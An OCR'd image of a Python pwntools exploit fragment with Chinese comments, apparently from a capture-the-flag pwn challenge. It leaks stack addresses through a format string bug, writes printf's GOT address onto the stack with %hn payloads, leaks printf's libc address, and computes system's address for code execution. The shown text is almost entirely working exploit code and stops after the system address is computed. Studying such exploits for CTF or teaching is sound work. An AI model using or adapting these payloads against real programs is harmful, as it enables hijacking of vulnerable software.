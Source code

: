 ```python


ebp2 = int(p.recv(),16)  #第一次利用格式化字符串漏洞，获得ebp1，ebp2，p_7，p_11的真实地址
ebp1 = ebp2 - 0x10
fmt_7 = ebp2 -0x0c
fmt_11 = ebp2 + 0x04
log.info("printf_got-->p[%s]"%hex(printf_got))
log.info("ebp_1-->p[%s]"%hex(ebp1))
log.info("ebp_2-->p[%s]"%hex(ebp2))
log.info("fmt_7-->p[%s]"%hex(fmt_7))
log.info("fmt_11-->p[%s]"%hex(fmt_11))

#输出打印m个char【%mc】，m=str(fmt_7 & 0xffff)=2字节数字
payload = '%' + str(fmt_7 & 0xffff) + 'c%6$hn' #对ebp1指向的ebp2地址下写P_7的低两个字节【由于栈上的高两个字节都一致，因此只需要写低字节即可】
#ebp2 = fmt_7
p.sendline(payload)
p.recv()

payload = '%' + str(printf_got & 0xffff) + 'c%10$hn'#对ebp2指向的p_7地址下写printf_got的低两个字节
#fmt_7 = prinf_got
p.sendline(payload)
p.recv()

while True:
    p.send("23r3f")
    sleep(0.1)
    data = p.recv()
    if data.find("23r3f") != -1:
        break
'''
这个循环用于保证所有的字节都被输出，因为recv（）一次最多只能接收0x1000
个字节，所以要进行多次recv（）才能保证全部字节都输出以便进行下面的操作
需要注意的是，要构造一个字符串“23r3f”来作标志，返回的大量字符串中如果
包含了这个字符串那么说明之前构造的%n写入已经完成
''' 

        
payload = '%' + str(fmt_11 & 0xffff) + 'c%6$hn'
#ebp2 = fmt_11
p.sendline(payload)
p.recv()

payload = '%' + str((printf_got+2) & 0xffff) + 'c%10$hn'
#fmt_11 = prinf_got + 2
p.sendline(payload)
p.recv()    

while True:
    p.send("23r3f")
    sleep(0.1)
    data = p.recv()
    if data.find("23r3f") != -1:
        break
    
log.info("******leaking the print_got_add*********")
payload = 'aaaa%7$s' #泄露printf的真实地址【%s间接寻址】
p.sendline(payload)
p.recvuntil("aaaa")
printf_addr = u32(p.recv(4))
log.info("print_got_add is:[%s]"%hex(printf_addr))

system_addr = printf_addr - printf_libc + system_libc
```